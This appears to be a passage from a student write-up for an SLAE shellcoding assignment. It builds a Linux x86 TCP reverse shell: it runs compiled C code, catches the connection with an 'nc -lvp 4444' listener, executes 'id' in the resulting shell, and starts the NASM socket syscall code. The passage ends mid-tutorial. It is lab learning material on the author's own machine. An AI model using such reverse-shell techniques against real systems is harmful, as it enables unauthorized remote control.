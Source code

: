 
We compile, run and test it to check if It is working...


Client:
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ gcc reverse-shell-tcp.c -o reverse-shell-tcp
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ ./reverse-shell-tcp 
```

Server:
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ nc -lvp 4444
listening on [any] 4444 ...
192.168.1.64: inverse host lookup failed: Unknown host
connect to [192.168.1.64] from (UNKNOWN) [192.168.1.64] 36002
id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
```

After, I start to do same in assembly language. But before we need to know what are the numbers of the involved system calls.


| Method        | System call  | Socket syscall           | Description  |
| ------------- |:-------------:| :--------------:|-----------:|
| socket        | 0x66 (102) | 1 (SYS_SOCKET)          | Create a socket |
| connect      | 0x66 (102) |  3 (SYS_CONNECT)   |   Connect a socket |
| dup2      | 0x3f (63)  | None    |   Duplicate the file descriptors |
| execve      | 0xb (11)  | None    |   Execute a program |


System syscalls:  /usr/include/i386-linux-gnu/asm/unistd_32.h

Socket syscalls: /usr/include/linux/net.h 

Socket protocols: /usr/include/i386-linux-gnu/bits/socket.h

Socket domains: /usr/include/netinet/in.h

Socket types: /usr/include/i386-linux-gnu/bits/socket_type.h


#### Create the socket
```c
int socket(int domain, int type, int protocol);
```

The domain will be **IPv4 Internel Protocol**, the type (of communication) **SOCK_STREAM** and the protocol.
Basically, we push the parameters in the stack and save the stack pointer in the ecx register, after we run the system call.



```nasm
        xor eax, eax
        xor ebx, ebx
        push eax                ; protocol      - 0
        push 1                  ; type          - SOCK_STREAM,
        push 2                  ; dominio       - AF_INET

        mov ecx, esp            ; arguments
        mov bl, 1               ; sys_socket (create)
        mov al, 102             ; systemcall
        int 0x80

        mov esi, eax            ; save sockfd
```